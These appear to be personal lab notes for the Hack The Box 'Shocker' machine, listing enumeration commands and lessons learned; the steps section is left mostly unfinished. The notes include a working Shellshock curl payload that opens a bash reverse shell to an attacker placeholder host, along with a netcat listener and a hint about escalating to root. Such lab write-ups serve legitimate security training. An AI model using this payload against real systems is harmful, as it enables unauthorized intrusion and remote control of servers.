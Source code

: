 # Shocker
* Link: https://app.hackthebox.com/machines/Shocker
* Type: Linux
* Difficulty: Easy

## Commands Used
* *nmap -sC -sV -oA OUTPUTDIR IPADDRESS* - Nmap scan.
* *nc -nlvp 4444* - Starts a listener.
* *gobuster dir -f /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u IPADDRESS/* - *-f* is used to bypass some security control where when adding */* after directory name it gets treated as a file.
* *gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.56/cgi-bin/ -x sh,cgi*
* curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/MYIP/MYPORT 0>&1' http://TARGETIP/cgi-bin/user.sh - ShellShock Exploits
* In Linux:
  - *sudo -l* - Provide you with what you can run as a user with root privileges.
  - 


## Steps
* nmap to enumrate the host. 


## Why is the machine vulnerable
* The Machine is not patched/updated.

## Important Lessons
* It seems that if we don’t add the “/” at the end of the URL, the server is interpreting it as a file instead of a directory. (i.e. *IP/cgi-bin* doesn't work but *IP/cgi-bin/* Works fine) (Use *-f* flag with gobuster to do it automatically)
* If you run something with root privileges the thing ran will have root privileges (i.e. run a reverse shell as root to get root.)
* Sometimes even if you can't access a specific directory you can access files in that directory.
* *sudo -l* - Provide you with what you can run as a user with root privileges.
